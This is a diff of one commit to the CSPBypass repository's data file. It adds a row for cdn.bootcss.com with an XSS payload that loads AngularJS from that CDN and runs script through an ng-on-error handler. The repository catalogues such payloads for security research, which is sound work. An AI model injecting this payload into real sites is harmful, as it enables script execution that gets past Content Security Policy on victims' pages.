

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added cdn.bootcss.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 53: cdn.bootcss.com | <script src="https://cdn.bootcss.com/angular.js/1.8.3/angular.min.js"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
```
